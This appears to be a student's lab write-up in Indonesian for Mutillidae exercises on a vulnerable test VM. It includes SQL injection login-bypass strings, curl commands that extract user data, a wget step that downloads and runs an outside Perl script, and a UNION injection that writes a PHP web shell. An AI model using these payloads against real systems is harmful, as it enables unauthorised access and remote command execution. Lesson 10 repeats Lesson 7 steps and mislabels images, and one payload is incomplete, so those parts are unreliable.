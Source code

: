 # Tugas-Final-PKSJ
Tugas final PKSJ 2017
 OLEH 
- 5114100092    KHARISMA MONIKA
- 5114100131    Michael Dave
- 5114100081    M. Luqmanul Hakim

## Multidiae
### Lesson 5
  1. Membuka halaman mutillidae dengan memasukan URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/home.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

2. Pilih halaman login dengan menekan tulisan login di sebelah kiri atas dari halaman mutillidae
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/login.png "Mutillidae Login page")

3. Isikan (') / petik satu / single_quote pada kolom name seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test.png "Mutillidae single quote test")
Lalu tekan enter

4. Dapat dilihat dibagian atas muncul error log yang memberikan indikasi mengenai format dari dari perintah SQL untuk login
yaitu SELECT * FROM accounts WHERE username=''' AND password=''
dimana (') menyebabkan error pada eksekusi command sql.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test_report.png "Mutillidae single quote test report")

5. Dengan demikian maka dapat dilakukan login dengan mem-bypass password menggunakan sql injection dengan mengetikan perintah
sebagai berikut "'or 1=1-- " (petik 2 tidak perlu diketik juga)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Mutillidae bypass login")
Perhatikan untuk memberikan spasi di akhir dari tanda (-- ).
Lalu tekan enter.

6. Hasilnya
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test_report.png "Mutillidae login as admin")
Perhatikan frasa logged in as Admin:admin

### Lesson 6

### Lesson 7
Note : harus mengganti settingan database pada metasploit, database name diubah menjadi owsp10

 1. Buka Mutillidae pada Browser dengan IP/mutillidae
 2. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
 ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/section%208%20user%20info.PNG "Tampilan USer Info")
 3. Settig proxy firefox dengan alamat 127.0.0.1:8080
 4. Setting Burpsuite, dengan menonaktifkan intercept
 5. Di page user info masukkan username:
  ' 1=1-- 
  Lihat URL yang dihasilkan. Url yang dihasilkan seperti berikut : 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Tampilan User Page Info")
  http://192.168.149.101/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details
      Terlihat +or+1%3D1-- 
        Keterangan :
        + : space
        %3D : =
   ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/SQL%20Injection%20Obtain%20Userlist.PNG "LIST Username")
  6. Lihat di history http di burpsuite. History burpsuite menunjukkan encoded sql injection. Untuk proses selanjutnya menggunakan curl.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/history%20burpsuite.PNG "History burpsuite")
  7. SQL injection dengan curl. dengan perintah " curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}' "
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20curl.PNG "HASIL CURL")
  
  8. Membuat output file dengan memasukkan hasil curl pada lesson7.txt dengan perintah "  curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep "Username=" > lesson7.txt  " 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20cat%20lesson7.PNG "HASIL CAT CURL")
  
  9. Selanjutnya adalah SQL injection dengan Perl. Download Script Output parser, dengan perintah wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
  10. Rename menjadi extensi perl, dengan perintah mv lesson7.pl.TXT lesson7.pl
  11. ubah permission agar dapat membaca dengan perintah chmod 700 lesson7.pl
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/download%20output%20parser.PNG "HASIL DOWNLOAD PERL")
  
  12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
   
### Lesson 8
### Lesson 9
### Lesson 10
  1. Melihat database pada mutillidae. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20database%20dan%20use%20owasp10.PNG "DATABASES PADA MUTILLIDAE")
    2. Melihat tabel database owasp10
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20tables%20owasp10.PNG "TABEL PADA OWASP10")
    3. Melihat field pada tabel account
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/desc%20accounts.PNG "FIELD TABEL ACCOUNT")
    4. Buka mutillidae pada browser
    5. Menuju menu user info. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
    6. Inspect elemen pada textbox name, lalu ubah size.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/inspect%20elemet%20100.PNG "INSPECT ELEMEN dan UBAH SIZE")
    7. Melakukan Backdoor Union SQL Union Injection. Dengan perintah " ' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' --  "
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
    12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
    12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
### Lesson 11

## Cuckoo
### Instalasi
### Konfigurasi
### Testing

## Snort
### Instalasi
### Konfigurasi
### Testing
